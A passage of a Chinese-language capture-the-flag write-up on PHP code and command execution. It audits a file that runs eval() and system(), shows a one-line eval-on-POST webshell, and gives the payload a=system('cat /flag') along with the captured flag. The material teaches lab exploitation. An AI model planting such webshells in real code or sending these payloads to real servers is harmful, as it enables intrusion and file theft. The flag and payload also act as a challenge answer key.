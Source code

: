 # Level 0 -  代码执行&命令执行

### 审计代码

```php
<?php
$code = "include('flag.php');echo 'This will get the flag by eval PHP code: '.\$flag;";

$bash = "echo 'This will get the flag by Linux bash command - cat /flag: ';cat /flag";

eval($code);

echo "<br>";

system($bash);

highlight_file(__FILE__);

?>
```

$code和$bash都是要执行的命令，分别由eval()和system()函数执行

----

# Level 1 - 一句话木马和代码执行

### 审计代码

```php
<?php
eval($_POST['a']);

highlight_file(__FILE__);

?>
```

* 以POST方式接收一个a参数
* 以eval()函数执行

### payload

`a=system('cat /flag');`

拿到flag：NSSCTF{41b1faa2-688b-45ef-bfd8-bbe37693511f}

----

# Level 2 - PHP代码执行函数
